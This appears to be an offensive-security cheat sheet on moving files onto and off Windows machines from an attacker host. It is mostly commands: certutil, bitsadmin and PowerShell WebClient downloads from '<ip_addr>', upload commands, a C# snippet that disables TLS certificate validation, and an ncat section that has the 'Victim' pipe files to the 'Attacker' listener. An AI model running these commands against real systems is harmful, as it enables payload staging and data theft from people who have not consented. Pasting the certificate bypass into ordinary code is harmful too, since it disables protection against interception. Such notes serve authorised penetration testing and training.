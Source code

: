 
For a collection of methods on hosting, reference my [Hosting as the Attacker](./Hosting%20%as%the%Attacker.md) note.
### Downloading via built-in Windows Utilities
---

```powershell
# Built in Certutil Utility
certutil -urlcache -f http://<ip_addr>/<filename> <outfile>

# Built in bitsadmin Utility
bitsadmin /TRANSFER <job_name> http://<ip_addr>/<filename> "$PWD/<outfile>"

# Native PowerShell Command
Invoke-WebRequest http://<ip_addr>/<filename> -UseBasicParsing -OutFile <outfile>
```

### Downloading and Uploading via PowerShell
---

```powershell
### PowerShell 2.0+ WebClient
# Download File from Web Server
(New-Object System.Net.WebClient).DownloadFile("http(s)://<ip_addr>/<filename>","<outfile>")

# Upload File top Web Server
(New-Object System.Net.WebClient).UploadFile("http(s)://<ip_addr>/<filename>","<outfile>")


### PowerShell 5.0+ WebClient
# Download Filr from Web Server
[System.Net.WebClient]::new().DownloadFile("http(s)://<ip_addr>/<filename>","<outfile>")

# Upload File to Web Server
[System.Net.WebClient]::new().UploadFile("http(s)://<ip_addr>/<filename>","<file_path>")


### Advanced: PoorMansArmory HTTPS File Transfer Support
# Bypass the WebClient self-signed certificate check within the current session
$Bypass = @'
using System;
using System.Net;
using System.Net.Security;
using System.Security.Cryptography.X509Certificates;
public class SelfSignedCerts
{
    public static void Bypass()
    {
        ServicePointManager.ServerCertificateValidationCallback =
            delegate
            (
                Object obj,
                X509Certificate certificate,
                X509Chain chain,
                SslPolicyErrors errors
            )
            {
                return true;
            };
    }
}
'@
Add-Type $Bypass;
[SelfSignedCerts]::Bypass();
```

### Downloading and Uploading via SMB
---

```powershell
# Download File from Share
copy \\<ip_addr>\<share_name>\<filename> <outfile>

# Upload File to Share
copy <filename> \\<ip_addr>\<share_name>\<filename>
```

### Alternative Methods
---

```powershell
### Using ncat.exe
# Attacker: Create Listener waiting for File
nc -nvlp <port> > <outfile>

# Victim: Upload File Bytes
type <filename> | ./nc.exe <ip_addr> <port>
```